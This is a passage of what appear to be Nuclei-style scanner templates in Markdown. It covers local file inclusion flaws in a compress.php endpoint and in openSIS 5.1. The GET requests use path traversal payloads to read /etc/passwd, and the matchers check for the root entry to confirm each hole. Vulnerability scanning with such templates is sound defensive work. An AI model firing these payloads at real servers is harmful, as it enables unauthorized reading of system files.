 - Method - GET

### URL

- {{BaseURL}}/compress.php?file=../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# openSIS 5.1 - Local File Inclusion

## Description

- openSIS 5.1 is vulnerable to local file inclusion and allows attackers to obtain potentially sensitive information by executing arbitrary local scripts in the context of the web server process. This may allow the attacker to compromise the application and computer; other attacks are also possible.
- severity - high
- tags - opensis,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/opensis/ajax.php?modname=misc/../../../../../../../../../../../../../etc/passwd&bypass=Transcripts.php
- {{BaseURL}}/ajax.php?modname=misc/../../../../../../../../../../../../../etc/passwd&bypass=Transcripts.php

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---